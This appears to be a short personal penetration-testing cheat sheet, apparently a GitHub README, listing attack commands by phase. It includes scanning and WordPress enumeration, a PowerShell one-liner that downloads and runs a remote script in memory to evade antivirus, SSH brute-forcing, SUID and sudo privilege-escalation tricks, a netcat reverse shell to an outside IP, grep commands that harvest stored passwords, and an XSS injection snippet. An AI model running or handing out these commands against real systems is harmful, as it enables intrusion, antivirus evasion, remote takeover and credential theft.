 # tools
few scripts and useful commands

# scan
<ul>
<li>netdiscover -r 192.168.10.130/24</li>
<li>nmap -A -sS 192.168.10.135</li>
<li>nikto -h http://192.168.10.135/site</li>
<li>wapiti http://192.168.10.134/site</li>
<li>wordpress : wpscan --url http://192.168.10.135/site</li>
</ul>

# windows
<p>run ps1 script in memory (bypass antivirus) :</p>
<ul>
<li>powershell IEX (New-Object Net.WebClient).DownloadString('http://10.133.127.172:85/test.ps1')</li>
</ul>

# bruteforce
<ul>
<li>hydra -l user -P wordlist.txt 192.168.10.130 ssh</li>
</ul>
<p>generate wordlist from a password with 2 missing characters :</p>
<ul>
<li>crunch 7 7 -t passwo^% >> wordlist.txt</li>
</ul>

# privesc

<ul>
<li>https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py</li>
<li>find / -perm -u=s -type f 2>/dev/null</li>
<li>find / -perm +6000 2> /dev/null</li>
<li>https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/</li>
<li> Get a better shell if msf payload is weak (ex: python/reverse_shell) : http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet </li>
<li> List rights : sudo -l </li>
<li> Example with /bin/ed : sudo /bin/ed => !/bin/bash => id </li>
<li>https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs</li>
<li>ps -ax</li>
</ul>

# shell

<p>LFI</p>
<ul>
<li>/bin/nc 192.168.91.1 1234 -e /bin/sh /bin</li>
<li> https://resources.infosecinstitute.com/local-file-inclusion-code-execution/#gref </li>
</ul>

# post-exploitation
<ul>
<li> grep -air --include=*.txt ou .json ou .sh password ou mot de passe </li>
<li> grep -air --include=*.txt "mot de passe" </li>
<li> grep -air --include=*pass* ""</li>
<li>https://matthew-brett.github.io/curious-git/reading_git_objects.html</li>
</ul>

# xss
<ul>
<li> " style="background-image: url(http://blabla.com) </li>
</ul>
